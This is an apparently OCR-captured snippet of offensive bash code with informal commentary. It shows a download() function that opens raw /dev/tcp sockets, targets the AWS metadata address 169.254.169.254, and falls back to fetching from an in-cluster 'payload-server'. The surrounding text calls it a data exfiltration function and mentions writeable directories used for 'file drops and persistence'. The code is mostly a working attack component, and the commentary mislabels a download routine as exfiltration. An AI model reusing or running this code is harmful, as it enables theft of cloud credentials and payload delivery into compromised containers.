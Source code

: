 this is the target directory list. they're common writeable locations used for file drops and persistence.

```bash
# Enhanced download function to handle connection issues and log details
download() {
  read proto server path <<< "${1//"/"/ }"
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  
  log "$BLUE" "Attempting to connect to $HOST:$PORT$DOC"
  
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  # Try payload server first if the original host is unreachable
  if [ "$HOST" = "169.254.169.254" ]; then
    log "$YELLOW" "AWS metadata IP is unreachable, trying payload server instead"
    HOST="payload-server.default.svc.cluster.local"
    PORT=8080
    DOC="/"
  fi

  # Connect with proper error handling
  exec 3<>/dev/tcp/${HOST}/$PORT 2>/dev/null || {
    log "$RED" "Connection to $HOST:$PORT failed, using fallback"
    return 1
  }
  
  log "$GREEN" "Successfully connected to $HOST:$PORT"
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  
  log "$BLUE" "Request sent, waiting for response..."
  
  while IFS= read -r line ; do
      [[ "$line" == $'\r' ]] && break
  done <&3
  
  log "$GREEN" "Received response headers, reading data..."
  
  nul='\0'
  while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do
      printf "%s$nul" "$x"
  done <&3
  
  exec 3>&-
  log "$GREEN" "Download completed from $HOST:$PORT$DOC"
}
```

this is the data exfiltration function. it parses the URL into components (protocol, server, path) and handles the HTTP connections for exfiltration. it uses `/dev/tcp` for network connections instead of `curl` and formats the requests for proper parsing.

